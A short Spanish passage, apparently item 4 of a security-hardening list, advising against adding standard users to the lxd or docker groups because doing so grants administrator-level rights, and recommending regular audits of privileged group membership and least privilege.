4. **Gestión de Grupos y Privilegios del Sistema:**

- Evitar añadir usuarios estándar al grupo `lxd` (o `docker`) salvo estricta necesidad, dado que equivale a otorgar privilegios de administrador.
- Auditar periódicamente la pertenencia de los usuarios a grupos privilegiados del sistema.
- Aplicar el principio de menor privilegio en la asignación de roles y grupos.
